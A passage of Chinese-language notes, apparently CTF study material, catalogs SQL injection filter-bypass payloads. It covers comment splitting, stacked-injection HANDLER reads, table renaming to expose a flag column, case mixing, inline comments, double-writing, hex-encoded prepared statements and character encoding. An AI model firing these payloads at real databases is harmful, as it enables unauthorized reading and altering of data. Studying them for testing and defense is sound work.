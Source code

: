 - 使用注释符绕过 （经过实验，会出现语法错误，预计使用情况应该是替换注释符为空）
  把要使用的查询语句放在`/**/`中，这样在一般的数据库是不会执行的，但是在mysql中内联注释中的语句会被执行。

  > //，-- , /**/, #, --+, – -, ;,%00,–a sel/**/ect * from users
  > un/**/ion select passwd from emils wh/**/ere limit 0,1;

- 绕过select过滤（配合堆叠注入）

  - handler

  ```sql
  handler table_name open ... //获取句柄
  handler ... read first //读取第一行数据 
  handler ... read next //读取下一行数据
  1';HANDLER \`1919810931114514\` OPEN;HANDLER \`1919810931114514\` READ FIRST;HANDLER \`1919810931114514\` CLOSE;#
  ```

  - 替换表到回显表

  ```sql
  1';
  rename table `words` to `words1`;
  rename table `1919810931114514` to `words`;
  alter table `words` change `flag` `id` 
  varchar(100) character set utf8 collate utf8_general_ci not NULL;#
  ```

- 大小写绕过

  > select * from users UnIon select passwd from emils WheRe limit 0,1;

- 内联注释绕过

  > select * from users /*!union*/ select passwd from emils /*!where*/ limit 0,1;
  > /*!version expr*/表示版本高于version，expr会执行

- 双写绕过

  > select * from users unUnionion select passwd from emils where limit 0,1;

- 预处理语句配合堆叠注入绕过

  > SeT@a=0x73656c656374202a2066726f6d20603139313938313039333131313435313460;prepare execsql from @a;execute execsql;#

- 特殊编码绕过

  - 十六进制

  > select * from users where username = 0x7a68616e677961;

  - Ascii编码

  > select * from users where username = concat(char(49),char(49));

#### 参考文章

[SQL注入(巨详解) ](https://www.cnblogs.com/peace-and-romance/p/15890387.html#0x00-引言)
 [sql注入报错注入原理解析](https://blog.csdn.net/he_and/article/details/80455884?utm_medium=distribute.pc_relevant.none-task-blog-2~default~baidujs_baidulandingword~default-0-80455884-blog-118995223.pc_relevant_multi_platform_whitelistv3&spm=1001.2101.3001.4242.1&utm_relevant_index=3)
